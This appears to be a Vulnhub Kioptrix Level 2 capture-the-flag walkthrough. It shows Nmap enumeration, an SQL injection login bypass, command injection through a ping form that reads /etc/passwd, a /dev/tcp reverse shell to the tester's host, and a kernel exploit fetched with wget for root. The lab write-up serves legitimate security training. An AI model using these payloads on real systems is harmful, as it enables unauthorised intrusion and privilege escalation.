









# Kioptrix Level 2 Walkthrough


## Introduction

**Platform:** Vulnhub  
**Difficulty Level:** Easy  
**IP Address/Target URL:** 192.168.29.44  
**Date:** 04-09-2024  
**Objective:** The Kioptrix VM series offers a set of challenges designed to teach vulnerability assessment and exploitation techniques. The goal is to gain root access on the machine using any method available. These challenges help in mastering basic tools and techniques in penetration testing.

## Enumeration

### Initial Reconnaissance

**Tools Used:** Netdiscover, Nmap

#### Network Discovery with Netdiscover

To identify the target IP, I used Netdiscover:

```bash
netdiscover -i eth0 -r 192.168.29.1/24
```


#### Nmap Initial Port Scan

I performed a full TCP port scan using Nmap:

```bash
# nmap -v -p- 192.168.29.44 -oN nmap_initial_scan.txt

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-04 08:59 EDT
Initiating ARP Ping Scan at 09:00
Scanning 192.168.29.44 [1 port]
Completed ARP Ping Scan at 09:00, 0.07s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 09:00
Completed Parallel DNS resolution of 1 host. at 09:00, 0.02s elapsed
Initiating SYN Stealth Scan at 09:00
Scanning 192.168.29.44 [65535 ports]
Discovered open port 22/tcp on 192.168.29.44
Discovered open port 111/tcp on 192.168.29.44
Discovered open port 80/tcp on 192.168.29.44
Discovered open port 443/tcp on 192.168.29.44
Discovered open port 3306/tcp on 192.168.29.44
Discovered open port 622/tcp on 192.168.29.44
Discovered open port 631/tcp on 192.168.29.44
Completed SYN Stealth Scan at 09:00, 10.46s elapsed (65535 total ports)
Nmap scan report for 192.168.29.44
Host is up (0.00018s latency).
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
443/tcp  open  https
622/tcp  open  collaborator
631/tcp  open  ipp
3306/tcp open  mysql
MAC Address: 08:00:27:32:BB:59 (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.99 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```
### Results:

- 22/tcp: SSH (OpenSSH 3.9p1, protocol 1.99)
- 80/tcp: HTTP (Apache 2.0.52, CentOS)
- 111/tcp: RPC (rpcbind)
- 443/tcp: HTTPS (Apache 2.0.52, CentOS)
- 622/tcp: RPC status
- 631/tcp: IPP (CUPS 1.1)
- 3306/tcp: MySQL (unauthorized)

#### Nmap Service/Version detection

After identifying the open ports, I ran a more detailed scan on the discovered services:

```bash
# nmap -v -p 22,80,111,443,622,631,3306 -sC -sV -A -oN nmap_services_scan.txt 192.168.29.44

Nmap scan report for 192.168.29.44
Host is up (0.00065s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.0.52 (CentOS)
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            619/udp   status
|_  100024  1            622/tcp   status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_ssl-date: 2024-09-04T17:02:45+00:00; +4h00m01s from scanner time.
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-10-08T00:10:47
| Not valid after:  2010-10-08T00:10:47
| MD5:   01de:29f9:fbfb:2eb2:beaf:e624:3157:090f
|_SHA-1: 560c:9196:6506:fb0f:fb81:66b1:ded3:ac11:2ed4:808a
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.0.52 (CentOS)
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|_    SSL2_DES_64_CBC_WITH_MD5
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
622/tcp  open  status   1 (RPC #100024)
631/tcp  open  ipp      CUPS 1.1
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 08:00:27:32:BB:59 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Uptime guess: 0.002 days (since Wed Sep  4 08:59:16 2024)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=197 (Good luck!)
IP ID Sequence Generation: All zeros

Host script results:
|_clock-skew: 4h00m00s

TRACEROUTE
HOP RTT     ADDRESS
1   0.65 ms 192.168.29.44

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  4 09:02:44 2024 -- 1 IP address (1 host up) scanned in 16.13 seconds
```

### Key Findings:

- SSH (22/tcp): OpenSSH 3.9p1, supports SSHv1.
- HTTP (80/tcp): Apache 2.0.52, no specific page title or significant information.
- RPC (111/tcp): Version 2, provides RPC services.
- HTTPS (443/tcp): Apache 2.0.52 with SSLv2 enabled (considered insecure).
- IPP (631/tcp): CUPS 1.1, HTTP PUT method potentially risky.
- MySQL (3306/tcp): MySQL service is accessible without authentication.

## Vulnerability Identification

### Identifying Vulnerabilities

The Apache HTTP service on port 80 displayed a login page. Attempting a basic SQL injection on the login form, I found that the payload admin' OR '1'='1 successfully bypassed authentication.





### Exploitation
#### Initial Exploit

After loggin in there is a web console which allows us to ping a network machine.


I tried to ping my local machine and it successfully ran.






This function was vulnerable to command injection, allowing me to execute arbitrary commands.
I tested the command injection by appending && cat /etc/passwd to the ping command, which successfully retrieved the contents of /etc/passwd:

```bash
192.168.29.241 -c1 && cat /etc/passwd
```


### Results:

The system returned the contents of /etc/passwd, confirming the vulnerability.

```bash
192.168.29.241 -c1 && cat /etc/passwd
PING 192.168.29.241 (192.168.29.241) 56(84) bytes of data.
64 bytes from 192.168.29.241: icmp_seq=0 ttl=64 time=0.625 ms
--- 192.168.29.241 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.625/0.625/0.625/0.000 ms, pipe 2
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
rpm:x:37:37::/var/lib/rpm:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
netdump:x:34:34:Network Crash Dump user:/var/crash:/bin/bash
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
squid:x:23:23::/var/spool/squid:/sbin/nologin
webalizer:x:67:67:Webalizer:/var/www/usage:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
pegasus:x:66:65:tog-pegasus OpenPegasus WBEM/CIM services:/var/lib/Pegasus:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
john:x:500:500::/home/john:/bin/bash
harold:x:501:501::/home/harold:/bin/bash
```

### Reverse Shell

To gain a reverse shell, I generated a payload using [revshell.com](https://www.revshells.com/) and executed it by chaining it with the ping command:

```bash
127.0.0.1 && sh -i >& /dev/tcp/192.168.29.241/4444 0>&1
```



I set up a listener on my local machine:

```bash
nc -nlvp 4444
```



This gave me shell access to the machine.

### Post-Exploitation
#### Privilege Escalation
#### Kernel Exploit:

Researching the kernel version, I found an exploit that could elevate my privileges to root. I hosted the exploit on my local machine and transferred it to the target using wget:

```bash
python -m http.server 80
wget http://192.168.29.241/exploit.c
```





I compiled and executed the exploit:

```bash
chmod +x exploit.c
gcc exploit.c -o exploit
./exploit
```



## Results:

The exploit successfully changed the UID to root, granting me full control of the system.

## Conclusion
### Final Thoughts:

This challenge was an excellent exercise in basic vulnerability identification and exploitation. The SQL injection and command injection vulnerabilities were straightforward, and the privilege escalation required a kernel exploit. Each step reinforced the importance of thorough enumeration and research in penetration testing.

### Lessons Learned:

- Always perform comprehensive enumeration to identify potential attack vectors.
- Researching specific vulnerabilities for the identified services is crucial for successful exploitation.
- Understanding and utilizing reverse shells and privilege escalation techniques are fundamental skills in penetration testing.


